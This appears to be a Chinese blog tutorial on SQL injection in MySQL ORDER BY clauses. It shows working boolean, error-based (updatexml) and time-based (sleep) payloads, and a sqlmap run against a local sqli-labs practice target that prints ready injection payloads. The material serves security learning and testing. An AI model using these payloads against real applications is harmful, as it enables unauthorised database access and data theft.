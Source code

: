 ```yaml
---
layout: post
title:  "SQL注入之order by注入"
date:   2018-01-13 21:41:45 +0800
categories: [SQL, order by注入]
---
```

>这一系列文章打算去总结sql注入发生的位置，并总结他们的不同，此文是第一篇order by位置的注入

排序注入为何要拿出来说：
1. order by之后可用的语句有限，有必要去总结下其利用的特点

2. order by位置是比较难以使用预编译去处理的，像mybatis这一类成熟的框架中也存在这种问题详见：[Mybatis框架下SQL注入漏洞面面观](https://mp.weixin.qq.com/s?src=3&amp;timestamp=1514813452&amp;ver=1&amp;signature=aort5C46VjBc1nw781Wc8WUSE8n3ErlNwWwH94BBZVSJ--3bdFc5yDWx2qD0Bs-ydAPLNqAcH01Jkncw28TLJxymWKhZAnRucnkLZHRkiQZAA89cHB0QJBKJt2TE5JCDLNrKyQuZS7YMeMtxGEX29oPP2mEI1j3ko9QBWFnNqR8=)
 
# 0X00 order by 的官方文档

```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
只看order by部分我们知道order by后可以是“字段名”、“表达式”、“字段位置”，另外order by之后不可以出现union
```shell
mysql> select * from emails order by email_id union seletc * from users;
ERROR 1221 (HY000): Incorrect usage of UNION and ORDER BY
```
为啥会报错，还是mysql的文档用法里写的，大意就是order by如果出现在子句中必须出现在末尾或者将每个子句加上括号提升优先级，否则都会按照union的语法去执行
```sql
substatement union all substatement union all substatement [order by-clause] [limit-clause]
```
# 0X01 order by 注入利用
这里的利用方式无非也就两种：

1. 有回显式的注入
2. 盲注

首先解释第一种，有回显的注入。这种注入需要一个前置的条件，就是我们必须知道“字段名“，注意这里知道”字段位置“是没有用的，因为，这里的数字会被认为是字符串。依据页面排序的不同我们可以判断我们注入是否得到我们需要的值，像下面这样
```sql
mysql> select * from users order by if(1=2,id,username);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  7 | batman   | mob!le     |
| 12 | dhakkan  | dumbo      |
|  1 | Dumb     | Dumb       |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (0.00 sec)

mysql> select * from users order by if(1=1,id,username);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
+----+----------+------------+
13 rows in set (0.00 sec)
```
接下来是第二种，盲注，这里的盲注由于可以插入语句，所以基本上和where位置的注入差不了太多，可以报错或者时间

报错注入
```sql
mysql> select * from users order by updatexml(1,user(),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhost'
```
更多的报错技巧可以查看之前的报错注入篇

时间注入
```sql
mysql> select * from users order by if(1=1,sleep(1),1);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  9 | admin1   | admin1     |
|  4 | secure   | crappy     |
| 12 | dhakkan  | dumbo      |
|  7 | batman   | mob!le     |
|  2 | Angelina | I-kill-you |
| 10 | admin2   | admin2     |
|  5 | stupid   | stupidity  |
| 14 | admin4   | admin4     |
|  8 | admin    | admin      |
|  3 | Dummy    | p@ssword   |
| 11 | admin3   | admin3     |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (13.05 sec)
```
可以发现这报错和时间注入在order by的情况下和where的情况下几近相似
相比回显和盲注，在order by的场景下，似乎是盲注的利用条件要简单过回显，但是回显的情况我相信还是存在的，只是还没有遇见
# 0X02 order by 注入成熟利用
比较过order by位置和where位置我相信一般的sqlmap注入指令就可以跑出这种类型的注入了，我们来看看
```shell
python sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-46/?sort=1" --dbms mysql --technique=BEUS
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.1.5#dev}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:05:42

[22:05:43] [INFO] testing connection to the target URL
[22:05:43] [INFO] testing if the target URL content is stable
[22:05:44] [INFO] target URL content is stable
[22:05:44] [INFO] testing if GET parameter 'sort' is dynamic
[22:05:44] [INFO] confirming that GET parameter 'sort' is dynamic
[22:05:44] [INFO] GET parameter 'sort' is dynamic
[22:05:44] [INFO] heuristic (basic) test shows that GET parameter 'sort' might be injectable (possible DBMS: 'MySQL')
[22:05:44] [INFO] heuristic (XSS) test shows that GET parameter 'sort' might be vulnerable to cross-site scripting (XSS) attacks
[22:05:44] [INFO] testing for SQL injection on GET parameter 'sort'
for the remaining tests, do you want to include all tests for 'MySQL' extending provin
[22:05:47] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:05:47] [WARNING] reflective value(s) found and filtering out
[22:05:47] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[22:05:47] [INFO] GET parameter 'sort' appears to be 'MySQL >= 5.0 boolean-based blind - Parameter replace' injectable (with --string="10")
[22:05:47] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:05:47] [INFO] GET parameter 'sort' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[22:05:47] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:05:47] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
GET parameter 'sort' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: sort (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: sort=(SELECT (CASE WHEN (8800=8800) THEN 8800 ELSE 8800*(SELECT 8800 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: sort=1 AND (SELECT 4316 FROM(SELECT COUNT(*),CONCAT(0x717a7a7871,(SELECT (ELT(4316=4316,1))),0x716b717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
---
[22:05:49] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.33, Apache 2.4.28
back-end DBMS: MySQL >= 5.0
[22:05:49] [INFO] fetched data logged to text files under '/Users/nanchealdu/.sqlmap/output/127.0.0.1'
```
事实确实如此
